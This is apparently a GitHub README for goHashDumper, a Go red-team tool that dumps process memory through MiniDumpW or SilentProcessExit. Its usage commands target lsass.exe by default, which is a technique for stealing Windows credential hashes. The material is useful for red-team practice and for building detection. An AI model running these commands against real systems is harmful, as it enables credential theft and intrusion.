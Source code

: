 # goHashDumper

## Note
Dump内存都需要管理员权限

## Description 
基于Golang开发,用于Dump指定进程的内存,主要利用静默退出机制(SilentProcessExit)和Windows API(MiniDumpW)实现

## Usage
```
gohashdumper.exe -method 1 -out test.dmp -process lsass.exe
gohashdumper.exe -method 2 -path C:\tmp -pid 2333
  -method string
        choose Dump file Method(1 => MiniDumpW  2=> SilentExitDump) (default "1")
  -out string
        dump file name (default "lsass.dmp")
  -path string
        only method 2 need a filepath (default "D:\\RedTeam\\GoHashDumper")
  -pid string
        If not use process name,it can support pid
  -process string
        Process to dump (default "lsass.exe")
 ```
 
 ## Example
 ![](https://github.com/crisprss/goHashDumper/blob/main/image.png)

